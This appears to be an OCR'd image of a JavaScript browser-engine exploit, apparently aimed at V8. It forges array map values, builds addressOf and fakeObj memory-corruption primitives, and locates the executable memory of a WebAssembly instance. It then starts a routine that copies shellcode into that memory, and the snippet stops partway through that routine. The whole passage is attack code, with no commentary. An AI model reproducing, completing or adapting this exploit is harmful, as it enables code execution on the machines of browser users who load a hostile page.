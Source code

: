 ```javascript
    fake_buf=demo_ele_addr+0x200+8;
    array_map0 = itof(0x1604040408002119n);

    double_array_map_addr=demo_ele_addr+0x100;
    double_array_map_value=itof(0x0a0007ff11000834n);

    demo_array[0x100/8]=array_map0;
    demo_array[0x108/8]=double_array_map_value;

    obj_array_map_addr=demo_ele_addr+0x150;
    obj_array_map_value=itof(0x0a0007ff09000834n);

    demo_array[0x150/8]=array_map0;
    demo_array[0x158/8]=obj_array_map_value;

    demo_array[0x000/8]=u2d(obj_array_map_addr+1,0);
    demo_array[0x008/8]=u2d(fake_buf+1,0x2);

    function addressOf(target_var)
    {
       demo_array[0x000/8]=u2d(obj_array_map_addr+1,0);
       evil[0]=target_var;
       demo_array[0x000/8]=u2d(double_array_map_addr+1,0);
       let addr=ftoi(evil[0])-1n;
       console.log("[*] addr: 0x"+hex(addr));
       demo_array[0x000/8]=u2d(obj_array_map_addr+1,0);
       return addr;
    }

    var fake_array = [
        u2d(double_array_map_addr+1, 0),
        itof(0x4141414141414141n)
    ];
    function fakeObj(target_addr)
    {
        demo_array[0x000/8]=u2d(double_array_map_addr+1,0);
        console.log("[*] set addr: 0x"+hex(target_addr));
        demo_array[0x210/8]=itof(target_addr+1n);
        demo_array[0x000/8]=u2d(obj_array_map_addr+1,0);
        let vul=evil[0];
        demo_array[0x000/8]=u2d(double_array_map_addr+1,0);
        return vul;
    }

    var wasmins=addressOf(wasmInstance);
    var fake_ob=addressOf(fake_array);
    fake_addr=fake_ob+0x20n+4n;
    var t=fakeObj(fake_addr);
    console.log("[*] addr: 0x"+hex(fake_addr));
    fake_array[1]=itof(wasmins+0x68n+1n-8n-8n);

    rwx_addr=ftoi(t[0]);
    console.log("[*] value: 0x"+hex(ftoi(t[0])));

    function copy_shellcode(shellcode,addr)
    {
        var data_buf=new ArrayBuffer(shellcode.length*8);
        var data_view=new DataView(data_buf);
        var back_sotre_addr=addressOf(data_buf)+0x18n;
        fake_array[1]=itof(back_sotre_addr-3n);
        t[0]=itof(addr);
        for (let i=0;i<shellcode.length;++i)
		    data_view.setFloat64(i*8,itof(shellcode[i]),true);
```